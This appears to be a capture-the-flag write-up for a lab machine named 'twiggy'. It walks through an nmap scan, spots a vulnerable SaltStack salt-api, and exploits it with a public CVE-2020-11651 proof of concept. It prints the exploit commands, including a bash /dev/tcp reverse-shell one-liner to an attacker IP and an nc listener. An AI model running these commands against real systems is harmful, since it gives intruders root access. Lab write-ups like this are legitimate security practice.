


# Recon

I do my initial scan to see which ports and services are open.

## nmapAutomator.sh Full
```
$ sudo ./nmapAutomator.sh -H twiggy.pg -t Full -o full

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-title: Home | Mezzanine
|_http-server-header: nginx/1.16.1
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-title: Site doesn't have a title (application/json).
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.16.1
```

# Enumeration

## Port 8000 - nginx 1.16.1

`curl`'ing this service shows an `X-Upstream:` header set to `salt-api/3000-1`


Checking `searchsploit` we see that there appears to be an exploit for this version.

# Exploit

I end up Googling around and test driving different exploits on GitHub, eventually settling for this one:

https://github.com/jasperla/CVE-2020-11651-poc


`root key obtained: sxZXn5kSJ8GhLjvneaBPMAoMlbqbUNuZ2drFuheYR8r/goL8Iij0bGn7at8vI4Md1I5ESLm3+aw`


`python3 exploit.py --master 192.168.70.62 --exec "ping 192.168.49.70"`


`sudo tcpdump -i tun0 icmp`



`python3 exploit.py --master 192.168.70.62 --exec "bash -i >& /dev/tcp/192.168.49.70/80 0>&1"`


`sudo nc -nlvp 80`

We are root!

